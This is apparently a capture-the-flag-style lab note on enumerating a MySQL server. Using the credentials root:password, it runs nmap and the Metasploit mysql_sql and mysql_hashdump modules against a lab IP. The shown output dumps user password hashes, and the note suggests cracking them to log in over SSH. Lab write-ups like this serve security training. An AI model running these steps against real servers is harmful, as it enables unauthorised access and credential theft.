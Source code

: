 ## Pre-requisite --> [[enumeration]]

## MySQL enumeration practically:

we're going to assume that you found the **credentials: "root:password"** while enumerating subdomains of a web server.

### Requirements
```python
sudo apt install default-mysql-client
```

## Manual enumeration:
1. Scanning with nmap:
![[MySQL1.png]]

2. Manually connecting to MySQL server:
   ![[MySQL2.png]]
   We had used above credentials(root:password) for login purpose and now we exit from this session with "exit" command.

3. Finding the username with nmap script:
   ![[MySQL3.png]]


## Metasploit enumeration:
**Above two steps is same in this phase**

```python
msf6 > search mysql_sql
msf6 auxiliary(admin/mysql/mysql_sql) > options
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.19.225
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.19.225

[*] 10.10.19.225:3306 - Sending statement: 'select version()'...
[*] 10.10.19.225:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed

```
**Result** - We get the version of database that is running on the server.

#### MySQL hashdump to find the username with hashes:
```python
msf6 auxiliary(scanner/mysql/mysql_schemadump) > use auxiliary/scanner/mysql/mysql_hashdump
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.19.225
RHOSTS => 10.10.19.225
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.19.225:3306     - Saving HashString as Loot: root:
[+] 10.10.19.225:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.19.225:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.19.225:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.19.225:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.19.225:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.19.225:3306     - Scanned 1 of 1 hosts (100% complete)

```
Now, we can crack the hash with john the ripper and login with ssh. 